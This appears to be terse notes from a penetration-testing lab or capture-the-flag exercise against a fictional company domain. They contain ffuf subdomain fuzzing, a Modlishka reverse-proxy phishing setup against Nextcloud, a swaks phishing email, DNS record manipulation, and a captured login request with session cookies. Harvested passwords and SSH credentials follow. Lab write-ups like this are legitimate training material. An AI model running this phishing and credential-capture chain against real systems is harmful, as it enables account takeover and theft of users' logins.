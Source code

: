 ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u https://0x0security.com -H "Host: FUZZ.0x0security.com" -fw 757
storage.0x0security.com
nextcloud.0x0security.com

---
modlishka

/opt/Modlishka/dist/proxy -listeningAddress 10.10.14.95 -target nextcloud.0x0security.com -proxyDomain tttt.0x0security.com -cert $cert -certKey $key -disableSecurity -debug -log /root/file.txt
swaks -to "ralph@0x0security.com" -from "robert@0x0security.com" -body "Click here https://tttt.0x0security.com/" -header "Subject: URL changed" -server 10.10.110.74
creating cert on django and downloading the pem file(crt) 
adding our vpn server to dns on powergslb
*tttt.0x0security.com CNAME tttt.0x0security.com
tttt.0x0security.com A 10.10.14.95

check if we get our ip back
dig @10.10.110.13 nextcloud.tttt.0x0security.com

POST /index.php/login HTTP/1.1

Accept: */*

Accept-Encoding: gzip, deflate

Connection: keep-alive

Content-Length: 205

Content-Type: application/x-www-form-urlencoded

Cookie: __Host-nc_sameSiteCookielax=true; __Host-nc_sameSiteCookiestrict=true; oc3sau9x3hp8=kpedthiarkgbghe87o58jos687; oc_sessionPassphrase=rPB9x70QlMVZksborGsf3WfEkjiNgY7c77h1JCHQGy2LfXtE8gKMeB2I8jasZYyvX1dMgY6lTZU0S0TEwc5rU6PAGOeMEQt

8kQGoESuW1uTXPREy1cezFznBI0hv0ecV

User-Agent: python-requests/2.18.4

  

user=robert&password=aep%21%40%23vae%24%2312ces&timezone_offset=1&timezone=Europe%2FBerlin&requesttoken=y8J1oL3eC4RcXq13pRAgbVy%2BIxIHggv2XMw05B9q7dQ%3D%3Ar%2FZMz4mobOENOu8g1lpzNW%2BVEEtG9ju3DY1bg2Yl3b4%3D


we get all the challenges, passwords, session cookies back

---
robert:aep!@#vae$#12ces

logging in through this and setting up the admin 2fa code we get access to admin nextcloud where we have a passwords bar where we get the following
sshuser:ca!@vyhjyt@#$!@31CASDF&^*3451@WADSFewr ==> creds for 10.10.110.74